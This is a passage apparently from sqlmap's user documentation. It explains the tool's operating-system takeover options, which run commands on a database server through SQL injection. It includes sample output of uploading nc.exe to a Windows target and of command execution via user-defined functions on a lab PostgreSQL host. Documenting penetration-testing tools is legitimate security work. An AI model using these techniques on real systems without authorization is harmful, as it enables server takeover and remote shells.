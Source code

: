 ```

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```

## Operating system takeover

### Run arbitrary operating system command

Option and switch: `--os-cmd` and `--os-shell`

It is possible to **run arbitrary commands on the database server's underlying operating system** when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses.

On MySQL and PostgreSQL, sqlmap uploads (via the file upload functionality explained above) a shared library (binary file) containing two user-defined functions, `sys_exec()` and `sys_eval()`, then it creates these two functions on the database and calls one of them to execute the specified command, depending on user's choice to display the standard output or not. On Microsoft SQL Server, sqlmap abuses the `xp_cmdshell` stored procedure: if it is disabled (by default on Microsoft SQL Server >= 2005), sqlmap re-enables it; if it does not exist, sqlmap creates it from scratch.

When the user requests the standard output, sqlmap uses one of the enumeration SQL injection techniques (blind, inband or error-based) to retrieve it. Vice versa, if the standard output is not required, stacked query SQL injection technique is used to execute the command.

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a PostgreSQL target:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```
